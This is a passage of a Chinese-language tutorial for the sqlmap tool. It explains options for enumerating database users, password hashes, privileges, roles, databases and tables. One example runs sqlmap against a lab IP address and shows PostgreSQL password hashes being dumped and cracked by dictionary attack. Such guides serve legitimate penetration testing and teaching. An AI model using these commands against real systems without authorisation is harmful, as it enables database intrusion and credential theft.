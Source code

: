 	参数：--passwords
	
	当前用户有权限读取包含用户密码的彪的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。
	
	例子：
	
	$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
	[...]
	back-end DBMS: PostgreSQL
	[hh:mm:38] [INFO] fetching database users password hashes
	do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
	[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
	what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
	[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
	do you want to use common password suffixes? (slow!) [y/N] n
	[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
	[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
	[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
	database management system users password hashes:
	[*] postgres [1]:
		password hash: md5d7d880f96044b72d0bba108ace96d1e4
		clear-text password: testpass
	[*] testuser [1]:
		password hash: md599e5ea7a6f7c3269995cba3927fd0093
		clear-text password: testpass
可以看到sqlmap不仅勒出数据库的用户跟密码，同时也识别出是PostgreSQL数据库，并询问用户是否采用字典爆破的方式进行破解，这个爆破已经支持Oracle和Microsoft SQL Server。

也可以提供-U参数来指定爆破哪个用户的hash。

#### 列出数据库管理员权限

	参数：--privileges
	
	当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的权限，sqlmap将会告诉你哪个是数据库的超级管理员。也可以用-U参数指定你想看哪个用户的权限。

#### 列出数据库管理员角色

	参数：--roles
	
	当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的角色，也可以用-U参数指定你想看哪个用户的角色。
	
	仅适用于当前数据库是Oracle的时候。

#### 列出数据库系统的数据库

	参数：--dbs
	
	当前用户有权限读取包含所有数据库列表信息的表中的时候，即可列出所有的数据库。

#### 列举数据库表

	参数：--tables,--exclude-sysdbs,-D
	
	当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出一个特定数据的所有表。
	
	如果你不提供-D参数来列指定的一个数据的时候，sqlmap会列出数据库所有库的所有表。
	